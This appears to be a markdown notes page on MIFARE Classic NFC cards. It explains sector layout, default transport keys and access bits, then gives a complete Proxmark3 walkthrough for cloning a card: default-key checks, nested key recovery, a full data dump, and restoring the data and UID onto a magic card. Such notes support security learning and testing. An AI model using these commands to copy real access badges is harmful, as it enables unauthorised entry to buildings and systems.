

# Mifare classic 


## Mifare classic 

The MiFare CanaNFC-based NFC based chip following the [ISO 14443A 49](https://en.wikipedia.org/wiki/ISO/IEC_14443) standard. The memory of this chip (assuming we are talking about the Classic 1K) is divided into 16 sectors of 64 bytes each. Like most, if not all, NFC cards it also contains UID and other data. Each sector can contain 2 keys as well as access condition information. All of these sectors can be encrypted with the Crypto1 algorithm to protect the data from being copied. Each key in each sector can be used to open a door (or anything else) in a sequence that goes something like this:

1. Reader detects NFC card and sends out information to unlock at least 1 sector on the MiFare Classic chip
2. Assuming the MiFare classic is programmed for this door, it sends back the key and access conditions
3. The reader validates the key and access conditions it receives and checks if the UID of the key is valid or within a specified range
4. If everything is in order, the reader opens the door


## Mifare Classic Cards

- Mifare Classic 1K
- Mifare Classic 4K
- Mifare Classic EV1

In a Mifare classic card there are sectors, and each sector contains a number of blocks. Each sector has a sector trailer, which is a block through which you can access data. That means that access conditions are stored in the sector trailer (the key A, the key B and the access bits.)


Each Mifare Tag has a 4Bytes UID which is unique and not changeable. Some Mifare cards have a 7 Byte UID.

**Transport configuration**: At chip delivery, all keys are set to 0xFF FF FF FF FF FF (6 times FFh) and the bytes 6, 7 and 8 are set to 0xFF0780 (See Transport Configuration.) Additionally byte-9 is used for general purpose 1 byte user data. Factory default value is 0x69. Therefore, at chip delivery sector trailer would be:

| 0   | 1   | 2   | 3   | 4   | 5   | 6   | 7   | 8   | 9   | 10  | 11  | 12  | 13  | 14  | 15  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| FF  | FF  | FF  | FF  | FF  | FF  | FF  | 07  | 80  | 69  | FF  | FF  | FF  | FF  | FF  | FF  |

Or: 

| Key A             | Access bits | Key B             |
| ----------------- | ----------- | ----------------- |
| FF FF FF FF FF FF | FF 07 80 69 | FF FF FF FF FF FF |

Transport configuration is the name for factory default keys and configuration: 
- KeyA: 0x FF FF FF FF FF FF (Default Key - Cannot be readable) 
- KeyB: 0x FF FF FF FF FF FF (Default Data) KeyB is used as data in transport configuration because it is readable. It cannot be used as authentication key. 
- Access Bits: 0xFF0780 Access Bits: 0xFF0780 meaning: 
	- KeyA never be read, but can write(change) itself. 
	- KeyA can read/write Access Bits and KeyB. 
	- Notice that the KeyB is read-able by KeyA. Thus, KeyB cannot be used as an authentication key. It can be used for general purpose user data. 
	- KeyA is allowed to read/write/increment/decrement for the data blocks


### Mifare Classics 1K
Memory Organization:

- 1024 Bytes
- Sectors and Blocks: 
- 16 Sectors (0-15).
- 4 block in each Sector 
- 16 Bytes in each Block
- 2 Keys (A/B) in each Sector 
- Sector Trailer 
- Authentication is required

**Access bits and conditions**: Attention: With each memory access the internal logic verifies the format of the access conditions. If it detects a format violation the whole sector is irreversibly blocked.



On chip delivery the access conditions for the sector trailers and KeyA are predefined as Transport Configuration. Since KeyB may be read in the transport configuration, it cannot be used as authentication key and new cards must be authenticated with KeyA. Since the access bits themselves can also be blocked, special care has to be taken during the personalization of cards.

Access conditions of sector trailer:


Access Conditions of Data Block


Following example analysis the Transport Configuration Access Bits (0xFF0780):

- Byte6 = 0xFF 
- Byte7 = 0x07 
- Byte8 = 0x80


### Mifare Classic 4K 

Structure Memory Structure:

- 4096 Bytes
- 40 Sectors (0-39) 
- 32 Sectors (0 – 31 ) are of 4 Blocks 
- 8 Sectors are of 16 Blocks 
- Each Sector has Sector Trailer Block 
- Authentication is required


## Cloning a MIFARE classic 

[Proxmark Cheat sheet](proxmark3.md)

Make sure that it's a MIFARE classic 1K card:

```
hf search
```

Lats line should return:

```
Valid ISO14443A Tag Found - Quitting Search
```


In this case it’s a Mifare 1k card. Copy  the UID of the card, which we’ll need later. From there we can find keys in use by checking against a list of default keys (hopefully one of these has been used):

```
hf mf chk --1k -f mfc_default_keys
```


Results: 

```
Found valid key:[ffffffffffff]  
```

This shows a key of ffffffffffff, which we can plug into the next command, which dumps keys to file:

```
hf mf nested --1k --blk 0 -a -k FFFFFFFFFFFF --dump
```

This dumps keys from the card into the file dumpkeys.bin. The output should be something like this:

```
[+] Testing known keys. Sector count 16
[+] Fast check found all keys

[+] found keys:

[+] -----+-----+--------------+---+--------------+----
[+]  Sec | Blk | key A        |res| key B        |res
[+] -----+-----+--------------+---+--------------+----
[+]  000 | 003 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  001 | 007 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  002 | 011 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  003 | 015 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  004 | 019 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  005 | 023 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  006 | 027 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  007 | 031 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  008 | 035 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  009 | 039 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  010 | 043 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  011 | 047 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  012 | 051 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  013 | 055 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  014 | 059 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+]  015 | 063 | FFFFFFFFFFFF | 1 | FFFFFFFFFFFF | 1
[+] -----+-----+--------------+---+--------------+----
[+] ( 0:Failed / 1:Success )

[+] Generating binary key file
[+] Found keys have been dumped to `/home/ME/hf-mf-<UID>-key.bin`
[=] --[ FFFFFFFFFFFF ]-- has been inserted for unknown keys where res is 0
```


Now to dump the contents of the card:

```
hf mf dump --1k
```

This dumps data from the card into dumpdata.bin. The output should be something like this:

```
Using... hf-mf-<UID>-key.bin
[+] Loaded binary key file `/home/ME/hf-mf-<UID>-key.bin`
[=] Reading sector access bits...
[=] .................
[+] Finished reading sector access bits
[=] Dumping all blocks from card...
 🕓 Sector...  9 block... 3 ( ok )[#] Can't select card
[#] Can't select card
 🕑 Sector... 15 block... 1 ( ok )[#] Can't select card
 🕓 Sector... 15 block... 3 ( ok )
[+] Succeeded in dumping all blocks

[+] time: 9 seconds


[=] -----+-----+-------------------------------------------------+-----------------
[=]  sec | blk | data                                            | ascii
[=] -----+-----+-------------------------------------------------+-----------------
[=]    0 |   0 | F6 42 E4 ED BD 08 04 00 03 D4 5D 90 EF 36 06 90 | .B........]..6..
[=]      |   1 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   2 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   3 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    1 |   4 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   5 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   6 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   7 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    2 |   8 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |   9 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  10 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  11 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    3 |  12 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  13 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  14 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  15 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    4 |  16 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  17 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  18 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  19 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    5 |  20 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  21 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  22 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  23 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    6 |  24 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  25 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  26 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  27 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    7 |  28 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  29 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  30 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  31 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    8 |  32 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  33 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  34 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  35 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]    9 |  36 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  37 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  38 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  39 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   10 |  40 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  41 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  42 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  43 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   11 |  44 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  45 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  46 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  47 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   12 |  48 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  49 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  50 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  51 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   13 |  52 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  53 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  54 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  55 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   14 |  56 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  57 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  58 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  59 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=]   15 |  60 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  61 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  62 | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ 
[=]      |  63 | FF FF FF FF FF FF FF 07 80 69 FF FF FF FF FF FF | .........i......
[=] -----+-----+-------------------------------------------------+-----------------

[+] Saved 1024 bytes to binary file `/home/ME/hf-mf-<UID>-dump.bin`
[+] Saved to json file `/home/ME/hf-mf-<UID>-dump.json`
```


At this point we’ve got everything we need from the card, we can take it off the reader.

To copy that data onto a new card, place the (Chinese backdoor) card on the proxmark:

```
hf mf restore --1k --uid <CAC0A500> -k /home/ME/hf-mf-<UID>-key.bin
```

This restores the dumped data onto the new card. Now we just need to give the card the UID we got from the original hf search command:

``` 
hf mf csetuid --uid <UID>
```

